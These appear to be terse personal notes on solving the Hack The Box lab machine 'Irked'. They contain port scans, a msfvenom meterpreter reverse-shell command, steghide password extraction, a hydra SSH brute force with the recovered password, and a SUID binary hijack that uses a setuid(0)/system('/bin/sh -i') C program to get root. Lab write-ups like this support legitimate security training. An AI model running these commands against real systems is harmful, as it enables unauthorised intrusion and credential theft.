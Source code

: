 
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37980/udp   status
|   100024  1          40332/udp6  status
|   100024  1          51886/tcp6  status
|_  100024  1          52736/tcp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


![](2021-01-24-23-10-10.png)


![](2021-01-24-23-12-22.png)


Discovered open port 8067/tcp on 10.10.10.117



kali@kali:~/htb/boxes/irked/10.10.10.117$ nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...



sudo bash -c 'echo "10.10.10.117 irked.htb" >> /etc/hosts'



6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
52736/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd


irssi

/connect 10.10.10.117 8067


![](2021-01-24-23-23-15.png)

![](2021-01-24-23-25-22.png)


id                                                                                                                                                            │
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd) 

python -c 'import pty;pty.spawn("/bin/bash")' 



[+] Backup folders                                                             
drwxr-xr-x 2 root root 4096 Jan 24 17:16 /var/backups              
total 4908                                                                     
-rw-r--r-- 1 root root    102400 May 11  2018 alternatives.tar.0      
-rw-r--r-- 1 root root     88342 Oct 30  2018 apt.extended_states.0   
-rw-r--r-- 1 root root      9890 May 15  2018 apt.extended_states.1.gz
-rw-r--r-- 1 root root      9868 May 11  2018 apt.extended_states.2.gz
-rw-r--r-- 1 root root      9727 May 11  2018 apt.extended_states.3.gz
-rw-r--r-- 1 root root       983 May 11  2018 dpkg.diversions.0   
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.1.gz
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.2.gz
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.3.gz
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.4.gz
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.5.gz  
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.6.gz  
-rw-r--r-- 1 root root       378 May 11  2018 dpkg.statoverride.0   
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.1.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.2.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.3.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.4.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.5.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.6.gz
-rw-r--r-- 1 root root   1745379 Oct 30  2018 dpkg.status.0   
-rw-r--r-- 1 root root    493551 Oct 30  2018 dpkg.status.1.gz
-rw-r--r-- 1 root root    493551 Oct 30  2018 dpkg.status.2.gz
-rw-r--r-- 1 root root    493551 Oct 30  2018 dpkg.status.3.gz
-rw-r--r-- 1 root root    493551 Oct 30  2018 dpkg.status.4.gz
-rw-r--r-- 1 root root    491825 May 15  2018 dpkg.status.5.gz
-rw-r--r-- 1 root root    491825 May 15  2018 dpkg.status.6.gz
-rw------- 1 root root       989 May 14  2018 group.bak 
-rw------- 1 root shadow     834 May 14  2018 gshadow.bak
-rw------- 1 root root      2161 May 14  2018 passwd.bak
-rw------- 1 root shadow    1314 May 16  2018 shadow.bak        


https://packetstormsecurity.com/files/153312/Exim-4.91-Local-Privilege-Escalation.html


msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f elf > shell.elf



total 16K
drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt


file .backup
.backup: ASCII text
cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss


vhost {                                                                                                                                                       
        vhost           i.hate.microsefrs.com;                                                                                                                
        from {                                                                                                                                                
                userhost       *@*.image.dk;                                                                                                                  
        };                                                                                                                                                    
        login           stskeeps;                                                                                                                             
        password        moocowsrulemyworld;                                                                                                                   
};      


        password "f00Ness";
        password "f00";


https://forums.unrealircd.org/viewtopic.php?t=1614



https://raw.githubusercontent.com/cloudposse/unrealircd/master/default.conf


/var/log/unrealircd/server.log


download /var/www/html/irked.jpg


steghide extract -sf irked.jpg
UPupDOWNdownLRlrBAbaSSss


kali@kali:~/htb/boxes/irked/10.10.10.117$ steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".


kali@kali:~/htb/boxes/irked/10.10.10.117$ /usr/local/bin/hydra -L users.txt -P passwords.txt ssh://10.10.10.117
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-25 11:26:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:3/p:5), ~1 try per task
[DATA] attacking ssh://10.10.10.117:22/
[22][ssh] host: 10.10.10.117   login: djmardov   password: Kab6h+m+bbp2J:HG
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-25 11:27:10


rm -rf /tmp/pwned*

[+] Mails (limit 0)                                                                                                                                                                                                                                                                                                         
262013    4 -rw-rw----   1 djmardov mail         3199 Jan 25 04:51 /var/mail/djmardov                                                                                                                                                                                                                                        
262013    4 -rw-rw----   1 djmardov mail         3199 Jan 25 04:51 /var/spool/mail/djmardov     


[+] Readable files belonging to root and readable by me but not world readable                                                                                                                                                                                                                                               
-rw-r----- 1 root dip 656 May 11  2018 /etc/chatscripts/provider                                                                                                                                                                                                                                                             
-rw-r----- 1 root dip 1093 May 11  2018 /etc/ppp/peers/provider     

-rwsr-xr-x 1 root   root       7.2K May 16  2018 /usr/bin/viewuser


video group

https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe


cat /dev/fb0 > /tmp/screen.raw
2048,1600

![](2021-01-25-11-45-17.png)

strings /usr/bin/viewuser | less

/tmp/listusers


djmardov@irked:/tmp$ cat listusers.c 
    int main(int argc, char **argv) {
    setuid(0);
    system("/bin/sh -i");
    return 0;
}


 gcc listusers.c -o listuser

djmardov@irked:/tmp$  /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-01-24 17:11 (:0)
djmardov pts/4        2021-01-25 05:30 (10.10.14.9)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
# 

